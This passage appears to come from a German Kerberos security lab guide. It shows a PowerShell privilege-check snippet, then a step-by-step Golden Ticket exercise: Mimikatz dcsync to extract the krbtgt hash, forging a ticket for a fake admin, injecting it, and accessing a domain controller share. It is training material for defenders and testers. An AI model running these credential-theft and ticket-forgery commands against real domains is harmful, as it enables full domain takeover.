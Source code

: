 ```powershell
                $IsHighPriv = $true
                Write-Host "⚠️  HIGH PRIVILEGE GROUP DETECTED: $($Group.Value)" -ForegroundColor Red
            }
        }
    }
    
    return @{
        UserSID = $CurrentUser.User.Value
        Groups = $Groups
        IsHighPrivilege = $IsHighPriv
    }
}

# Ausführen
$PACInfo = Get-KerberosPAC -Username $env:USERNAME
```

**Hands-On Challenge:**
Teams müssen die Unterschiede zwischen MIT Kerberos (ohne PAC) und Windows Kerberos (mit PAC) dokumentieren und erklären, warum Windows PAC für Authorization benötigt.

---

## Phase 3: Kerberos-Angriffe praktisch durchführen (30 Minuten)

### Lab 3.1: Golden Ticket Attack Simulation (15 Min)

**⚠️ WICHTIGER HINWEIS:** Diese Übung erfolgt ausschließlich in der kontrollierten Lab-Umgebung zu Bildungszwecken!

**Vorbereitung - krbtgt Hash extrahieren:**
```powershell
# Auf DC01 - Mimikatz für Educational Purposes
# Download: https://github.com/gentilkiwi/mimikatz (official repo)

# Als Domain Admin ausführen
.\mimikatz.exe

# krbtgt Hash extrahieren (Educational Lab Only!)
lsadump::dcsync /domain:krblab.local /user:krbtgt

# Output enthält:
# Hash NTLM: a1b2c3d4e5f6... (32 hex chars)
# Domain SID: S-1-5-21-1234567890-1234567890-1234567890
```

**Golden Ticket erstellen:**
```cmd
# Mit Mimikatz Golden Ticket generieren
kerberos::golden /user:fakeadmin /domain:krblab.local /sid:S-1-5-21-1234567890-1234567890-1234567890 /krbtgt:a1b2c3d4e5f6... /ticket:golden.kirbi

# Golden Ticket in Speicher laden
kerberos::ptt golden.kirbi

# Testen - Domain Controller zugreifen
dir \\dc01\c$

# Erwartung: Erfolgreicher Zugriff trotz fake user!
```
